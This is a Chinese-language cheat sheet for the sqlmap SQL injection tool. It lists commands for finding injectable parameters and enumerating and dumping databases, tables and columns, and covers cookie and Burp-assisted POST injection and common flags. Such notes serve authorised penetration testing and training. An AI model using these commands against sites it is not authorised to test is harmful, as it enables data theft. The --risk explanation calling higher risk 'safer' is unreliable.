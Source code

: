 # sqlmap常用命令总结：

1#、注入六连：
1.   sqlmap -u  "http://www.xx.com?id=x"    【查询是否存在注入点

2.     --dbs         【检测站点包含哪些数据库

3.     --current-db    【获取当前的数据库名

4.     --tables -D "db_name"  【获取指定数据库中的表名 -D后接指定的数据库名称

5.     --columns  -T "table_name" -D "db_name"  【获取数据库表中的字段

6.     --dump -C "columns_name" -T "table_name" -D "db_name"  【获取字段的数据内容

2#、COOKIE注入：
sqlmap -u "http://www.xx.com?id=x" --cookie "cookie" --level 2  【cookie注入 后接cookie值

3#、POST注入：
（1）目标地址http:// www.xxx.com /login.asp
（2）打开brup代理。
（3）点击表单提交
（4）burp获取拦截信息（post）
（5）右键保存文件（.txt）到指定目录下
（6）运行sqlmap并执行如下命令：
用例：sqlmap -r okay.txt  -p  username

// -r表示加载文件(及步骤（5）保存的路径)，-p指定参数（即拦截的post请求中表单提交的用户名或密码等name参数）

（7）自动获取表单：--forms自动获取表单

例如：sqlmap -u www.xx.com/login.asp --forms

（8）指定参数搜索：--data

例如:sqlmap -u www.xx.com/login.asp --data "username=1"

4#、常用指令：
1.    --purge      【重新扫描（--purge 删除原先对该目标扫描的记录）

2.    --tables      【获取表名

3.     --dbs         【检测站点包含哪些数据库

4.     --current-db    【获取当前的数据库名

5.     --current-user  【检测当前用户

6.    --is-dba   【判断站点的当前用户是否为数据库管理员

7.    --batch      【默认确认，不询问你是否输入

8.    --search  【后面跟参数 -D -T -C 搜索列（C），表（T）和或数据库名称（D）

9.    --threads 10  【线程，sqlmap线程最高设置为10

10.  --level 3        【sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP Cookie头
                                的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。最高为5
11.  --risk 3           【执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全
